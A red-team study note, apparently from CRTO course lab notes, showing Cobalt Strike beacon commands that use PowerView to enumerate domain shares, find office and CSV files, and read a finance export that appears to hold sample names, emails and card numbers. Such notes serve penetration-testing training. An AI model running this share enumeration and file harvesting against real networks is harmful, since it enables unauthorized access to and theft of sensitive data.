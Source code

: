 

#### 🖊️ via Cobalt Strike

1) `Find-DomainShare` in PowerView searches for computer shares on the domain.  The `-CheckShareAccess` parameter only shows that shares the current user has read access to.

```
beacon> powershell Find-DomainShare -CheckShareAccess

Name             Type Remark                                      ComputerName             
----             ---- ------                                      ------------             
CertEnroll          0 Active Directory Certificate Services share dc-2.dev.cyberbotic.io   
home$               0                                             dc-2.dev.cyberbotic.io   
NETLOGON            0 Logon server share                          dc-2.dev.cyberbotic.io   
software            0                                             dc-2.dev.cyberbotic.io   
SYSVOL              0 Logon server share                          dc-2.dev.cyberbotic.io   
finance$            0                                             fs.dev.cyberbotic.io
```

2) `Find-InterestingDomainShareFile` takes this a step further and searches each share, returning results where the specified strings appear in the path.

```
beacon> powershell Find-InterestingDomainShareFile -Include *.doc*, *.xls*, *.csv, *.ppt*

Owner          : BUILTIN\Administrators
CreationTime   : 9/15/2022 4:22:55 PM
Path           : \\fs.dev.cyberbotic.io\finance$\export.csv
LastAccessTime : 9/15/2022 4:23:21 PM
LastWriteTime  : 9/15/2022 4:22:55 PM
Length         : 8076

beacon> powershell gc \\fs.dev.cyberbotic.io\finance$\export.csv | select -first 5

id,first_name,last_name,email,address,postal_code,credit_card
1,Emmery,Sutton,esutton0@blogspot.com,4788 Ronald Regan Drive,,374288148757510
2,Abie,Maffezzoli,amaffezzoli1@dagondesign.com,6897 Butternut Alley,,374288483637400
```




#### ⚠ Opsec




### Properties
---
📆 created   {{29-02-2024}} 21:55
🏷️ tags: #redteam #crto 

---

